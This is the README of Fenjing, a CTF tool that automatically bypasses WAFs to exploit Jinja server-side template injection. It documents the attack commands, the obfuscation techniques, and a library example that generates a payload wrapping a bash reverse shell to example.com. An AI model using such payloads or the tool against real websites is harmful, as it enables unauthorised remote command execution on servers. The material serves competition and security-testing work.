

> Bypass the WAF without knowing WAF


[](https://github.com/Marven11/Fenjing/actions/workflows/run-tests.yml)
[](https://github.com/Marven11/Fenjing/actions/workflows/python-publish.yml)
[](https://codecov.io/gh/Marven11/Fenjing)
[](https://pepy.tech/project/fenjing)
[](https://pepy.tech/project/fenjing)


[English](README_en.md)

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口，省去手动测试接口，fuzz题目WAF的时间。

## 演示

[](https://asciinema.org/a/rewsTVvAPqH59GWNtn7QmZ6RU)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动爆破API参数并攻击
- 全自动分析网站的WAF并生成相应的payload
- 支持攻击对应的HTML表单或HTTP路径
- 支持将payload放进GET参数中提交，有效降低payload长度
- 自动检测关键字替换并绕过
- ......

## 安装

在以下方法中选择一种

### 使用pipx安装运行（推荐）

```shell
# 首先使用apt/dnf/pip/...安装pipx
#pip install pipx
# 然后用pipx自动创建独立的虚拟环境并进行安装
pipx install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

### 使用pip安装运行

```shell
pip install fenjing
fenjing webui
# fenjing scan --url 'http://xxxx:xxx'
```

### 下载并运行docker镜像

```shell
docker run --net host -it marven11/fenjing webui
```

## 使用

### webui

可以直接输入`python -m fenjing webui`启动webui，指定参数并自动攻击



在左边填入参数并点击开始分析，然后在右边输入命令即可

### scan

在终端可以用scan功能，猜测某个页面的参数并自动攻击：

`python -m fenjing scan --url 'http://xxxx:xxx/yyy'`

### crack

也可以用crack功能，手动指定参数进行攻击：

`python -m fenjing crack --url 'http://xxxx:xxx/yyy' --detect-mode fast --inputs aaa,bbb --method GET`

这里提供了aaa和bbb两个参数进行攻击，并使用`--detect-mode fast`加速攻击速度

### crack-request

还可以将HTTP请求写进一个文本文件里（比如说`req.txt`）然后进行攻击

文本文件内容如下：

```http
GET /?name=PAYLOAD HTTP/1.1
Host: 127.0.0.1:5000
Connection: close

```

命令如下：

`python -m fenjing crack-request -f req.txt --host '127.0.0.1' --port 5000`

### Tab补全

参考[这里](https://click.palletsprojects.com/en/8.1.x/shell-completion/)配置shell启用tab补全

示例如下：

bash

```bash
cat >> ~/.bashrc << EOF
eval "$(_FENJING_COMPLETE=bash_source fenjing)"
EOF
```

zsh

```shell
cat >> ~/.zshrc << EOF
eval "$(_FENJING_COMPLETE=zsh_source fenjing)"
EOF
```

fish

```shell
echo '_FENJING_COMPLETE=fish_source fenjing | source' > ~/.config/fish/completions/fenjing.fish
```

注意只有输入`fenjing ...`的形式可以进行补全，`python -m fenjing`等形式无法进行tab补全

## 详细使用

见[examples.md](examples.md)以及`--help`选项

## 技术细节

项目结构如下：

[](https://mermaid.live/edit#pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE)

payload生成原理见[howitworks.md](./howitworks.md)

支持的绕过规则如下

### 关键字符绕过：

- `'`和`"`
- `_`
- `[`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `+`
- `-`
- `*`
- `~`
- `{{`
- `%`
- ...

### 自然数绕过：

支持绕过0-9的同时绕过加减乘除，支持的方法如下：
- 十六进制
- a*b+c
- `(39,39,20)|sum`
- `(x,x,x)|length`
- unicode中的全角字符等

### `'%c'`绕过:

支持绕过引号，`g`，`lipsum`和`urlencode`等

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`等
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=x)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过
- 将字符串切分成小段分别生成
- ...

### 属性：

- `['aaa']`
- `.aaa`
- `|attr('aaa')`

### Item

- `['aaa']`
- `.aaa`
- `.__getitem__('aaa')`

## 其他技术细节

- 脚本会提前生成一些字符串并使用``设置在前方
- 脚本会在payload的前方设置一些变量提供给payload后部分的表达式。
- 脚本会在全自动的前提下生成较短的表达式。
- 脚本会仔细地检查各个表达式的优先级，尽量避免生成多余的括号。

## 详细使用

### 作为命令行脚本使用

各个功能的介绍：

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 根据给定URL爆破参数，以及提取其他URL进行扫描
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- crack-path: 对某个特定的路径进行攻击
  - 攻击某个路径（如`http://xxx.xxx/hello/<payload>`）存在的漏洞
  - 参数大致上和crack相同，但是只需要提供对应的路径
  - 示例：`python -m fenjing crack-path --url 'http://xxx/hello/'`
- crack-request: 读取某个请求文件进行攻击
  - 读取文件里的请求，将其中的`PAYLOAD`替换成实际的payload然后提交
  - 根据HTTP格式会默认对请求进行urlencode, 可以使用`--urlencode-payload 0`关闭

一些特殊的选项：
- `--eval-args-payload`：将payload放在GET参数x中提交
- `--detect-mode`：检测模式，可为accurate或fast
- `--environment`：指定模板的渲染环境，默认认为模板在flask中的`render_template_string`中渲染
- `--tamper-cmd`：在payload发出前编码
  - 例如：
    - `--tamper-cmd 'rev'`：将payload反转后再发出
    - `--tamper-cmd 'base64'`：将payload进行base64编码后发出
    - `--tamper-cmd 'base64 | rev'`：将payload进行base64编码并反转后再发出
- 详细解释见[examples.md](examples.md)


```
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  --no-verify-ssl                 不验证SSL证书
  --proxy TEXT                    请求时使用的代理
  --extra-data TEXT               请求时的额外POST参数，如a=1&b=2
  --extra-params TEXT             请求时的额外GET参数，如a=1&b=2
  --cookies TEXT                  请求时使用的Cookie
  --header TEXT                   请求时使用的Headers
  --user-agent TEXT               请求时使用的User Agent
  -u, --url TEXT                  需要攻击的URL  [required]
  --interval FLOAT                每次请求的间隔
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --waf-keyword TEXT              手动指定waf页面含有的关键字，此时不会自动检测waf页面的哈希等。可指定多个关键字
  --detect-waf-keywords DETECTWAFKEYWORDS
                                  是否枚举被waf的关键字，需要额外时间，默认为none, 可选full/fast
  --environment TEMPLATEENVIRONMENT
                                  模板的执行环境，默认为不带flask全局变量的普通jinja2
  --replaced-keyword-strategy REPLACEDKEYWORDSTRATEGY
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --detect-mode DETECTMODE        分析模式，可为accurate或fast
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  --help                          Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单

Options:
  --no-verify-ssl                 不验证SSL证书
  --proxy TEXT                    请求时使用的代理
  --extra-data TEXT               请求时的额外POST参数，如a=1&b=2
  --extra-params TEXT             请求时的额外GET参数，如a=1&b=2
  --cookies TEXT                  请求时使用的Cookie
  --header TEXT                   请求时使用的Headers
  --user-agent TEXT               请求时使用的User Agent
  -u, --url TEXT                  需要攻击的URL  [required]
  --interval FLOAT                每次请求的间隔
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --waf-keyword TEXT              手动指定waf页面含有的关键字，此时不会自动检测waf页面的哈希等。可指定多个关键字
  --detect-waf-keywords DETECTWAFKEYWORDS
                                  是否枚举被waf的关键字，需要额外时间，默认为none, 可选full/fast
  --environment TEMPLATEENVIRONMENT
                                  模板的执行环境，默认为不带flask全局变量的普通jinja2
  --replaced-keyword-strategy REPLACEDKEYWORDSTRATEGY
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --detect-mode DETECTMODE        分析模式，可为accurate或fast
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  -a, --action TEXT               参数的提交路径，如果和URL中的路径不同则需要填入
  -m, --method TEXT               参数的提交方式，默认为POST
  -i, --inputs TEXT               所有参数，以逗号分隔  [required]
  --eval-args-payload             是否开启在GET参数中传递Eval payload的功能
  --help                          Show this message and exit.

Usage: python -m fenjing crack-request [OPTIONS]

  从文本文件中读取请求并攻击目标，文本文件中用`PAYLOAD`标记payload插入位置

Options:
  --interval FLOAT                每次请求的间隔
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --waf-keyword TEXT              手动指定waf页面含有的关键字，此时不会自动检测waf页面的哈希等。可指定多个关键字
  --detect-waf-keywords DETECTWAFKEYWORDS
                                  是否枚举被waf的关键字，需要额外时间，默认为none, 可选full/fast
  --environment TEMPLATEENVIRONMENT
                                  模板的执行环境，默认为不带flask全局变量的普通jinja2
  --replaced-keyword-strategy REPLACEDKEYWORDSTRATEGY
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --detect-mode DETECTMODE        分析模式，可为accurate或fast
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  -h, --host TEXT                 目标的host，可为IP或域名  [required]
  -p, --port INTEGER              目标的端口  [required]
  -f, --request-file TEXT         保存在文本文件中的请求，其中payload处为PAYLOAD  [required]
  --toreplace BYTES               请求文件中payload的占位符
  --ssl / --no-ssl                是否使用SSL
  --urlencode-payload BOOLEAN     是否对payload进行urlencode
  --raw                           不检查请求的换行符等
  --retry-times INTEGER           重试次数
  --update-content-length BOOLEAN
                                  自动更新Content-Length
  --help                          Show this message and exit.

Usage: python -m fenjing crack-path [OPTIONS]

  攻击指定的路径

Options:
  --no-verify-ssl                 不验证SSL证书
  --proxy TEXT                    请求时使用的代理
  --extra-data TEXT               请求时的额外POST参数，如a=1&b=2
  --extra-params TEXT             请求时的额外GET参数，如a=1&b=2
  --cookies TEXT                  请求时使用的Cookie
  --header TEXT                   请求时使用的Headers
  --user-agent TEXT               请求时使用的User Agent
  -u, --url TEXT                  需要攻击的URL  [required]
  --interval FLOAT                每次请求的间隔
  --tamper-cmd TEXT               在发送payload之前进行编码的命令，默认不进行额外操作
  --waf-keyword TEXT              手动指定waf页面含有的关键字，此时不会自动检测waf页面的哈希等。可指定多个关键字
  --detect-waf-keywords DETECTWAFKEYWORDS
                                  是否枚举被waf的关键字，需要额外时间，默认为none, 可选full/fast
  --environment TEMPLATEENVIRONMENT
                                  模板的执行环境，默认为不带flask全局变量的普通jinja2
  --replaced-keyword-strategy REPLACEDKEYWORDSTRATEGY
                                  WAF替换关键字时的策略，可为avoid/ignore/doubletapping
  --detect-mode DETECTMODE        分析模式，可为accurate或fast
  -e, --exec-cmd TEXT             成功后执行的shell指令，不填则成功后进入交互模式
  --help                          Show this message and exit.

Usage: python -m fenjing webui [OPTIONS]

  启动webui

Options:
  -h, --host TEXT                 需要监听的host, 默认为127.0.0.1
  -p, --port INTEGER              需要监听的端口, 默认为11451
  --open-browser / --no-open-browser
                                  是否自动打开浏览器
  --help                          Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## Stars

[](https://starchart.cc/Marven11/Fenjing)
